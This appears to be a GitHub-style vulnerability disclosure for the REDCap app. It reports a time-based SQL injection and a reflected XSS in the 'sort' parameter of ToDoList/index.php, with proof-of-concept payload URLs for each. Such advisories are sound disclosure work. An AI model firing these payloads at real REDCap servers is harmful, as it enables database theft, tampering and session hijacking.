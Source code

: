 ## Vendor:
    Redcap app  

## Affected version:
The issue exists to version 10.3.4 and 10.0.20 (LTS) 

## Description:   
1.	SQL injection attack allow attackers to spoof identity, tamper with existing data, cause repudiation issues such as voiding transactions or changing balances, allow the complete disclosure of all data on the system, destroy the data or make it otherwise unavailable, and become administrators of the database server

2. The XSS vulnerability exists in the ToDoList function with parameter sort, the information submitted by the user is immediately returned in the response and not escaped leading to the Reflect XSS vulnerability. Attackers can exploit vulnerabilities to steal login session information or borrow user rights to perform unauthorized acts
This vulnerability occurs when Completed & Archived Requests has more than 10 records, the application starts paging, and the vulnerability exists here.


## Proof of Concept:

1. SQLInjection : redcap_v10.3.4/ToDoList/index.php?sort=(select case when (1=2) then 1 else 1*((select*from(select(sleep(5)))a))end)
<p align="center">
<img src="https://github.com/vuongdq54/RedCap/blob/master/sql_todolist_sort_1.JPG" />
<img src="https://github.com/vuongdq54/RedCap/blob/master/sql_todolist_sort_2.JPG" />
</p>

2. XSS : redcap_v10.3.4/ToDoList/index.php?sort=abc%27/%3E%3Cscript%3Ealert(%27xss%27)%3C/script%3E
<p align="center">
<img src="https://github.com/vuongdq54/RedCap/blob/pre_XSS_Todolist.JPG" />
<img src="https://github.com/vuongdq54/RedCap/blob/master/XSS_Todolist.JPG" />
</p>

## reference
https://www.project-redcap.org/